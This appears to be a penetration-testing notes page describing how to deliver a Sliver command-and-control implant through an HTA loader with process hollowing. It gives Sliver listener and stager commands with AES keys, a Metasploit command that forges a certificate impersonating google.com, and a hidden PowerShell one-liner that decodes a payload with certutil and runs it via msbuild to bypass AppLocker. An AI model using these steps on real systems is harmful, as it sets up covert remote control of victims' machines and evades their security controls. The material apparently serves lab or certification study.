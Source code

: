 # Overview
The payload is specific to the Process Hollowing payload that works with the https sliver profile
Run the powershell encoder to convert the sliver.ps1 to usable format for the hta powershell code runner within hta file

### Modify the runner.xml
Modify the runner.xml and change the IP address and runner.ps1 (or .txt) which will be the shell code runner, reference the PEN-300/sliver folder for simple shell code runner .ps1

### Encoding
The xml requires base64 encoding and placed into the runner.hta file within the powershell command to execute the mshta file.

{% code overflow="wrap" %}
```bash
PS Z:\ToolLibrary\AppLocker-CLM\HTA\Sliver-AdvancedHTTPs-HTA-Loader> .\HTA-powershellEncoder.ps1
```
{% endcode %}

Copy and paste the output from the encoded.txt file into the runner.hta file.

## References
Sliver staged payload: ToolLibrary/Sliver-Setup-HTTPS/sliver.ps1
XML Payload: ToolLibrary/AppLocker-CLM/HTA/Sliver-Basic-HTA-Loader/runner.xml
HTA Template: ToolLibrary/AppLocker-CLM/HTA/Sliver-Basic-HTA-Loader/runner.hta

## Sliver Setup
```bash
# impersonate_ssl for crt/key creation for encrypted https traffic
msfconsole -q -x "use auxiliary/gather/impersonate_ssl; set RHOST www.google.com; run; exit"

#Then save the .crt and .key files into an appropriate folder for easy reference

# Create profile local64 and point to port 443
sliver > profiles new --http 192.145.227.43:443 --format shellcode local64

# Setup main listener with google.crt / key generated with metasploit
sliver > sliver > https -L 192.168.45.227 -l 443 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key

# Setup the main stager with .crt and .key
sliver > stage-listener --url https://192.168.45.227:8064 --profile local64 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

## Prepare Sliver Payload
```bash
# payload for the https stager can be found in ToolLibrary/Sliver-Setup-HTTPS/sliver.ps1
```

## Prepare HTA XML runner 
```bash
# Update the runner.xml with the URI that corresponds to kali hosted webserver

# Encode the runner.xml into base64 and outputs contents into encoded.txt 
┌──(kali㉿kali)-[~]
└─$ pwsh ./HTA-powershellEncoder.ps1

# Copy contents into runner.hta 
powershell -windowstyle hidden echo <insert here> > c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\a.xml;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe C:\\windows\\temp\\a.xml
```
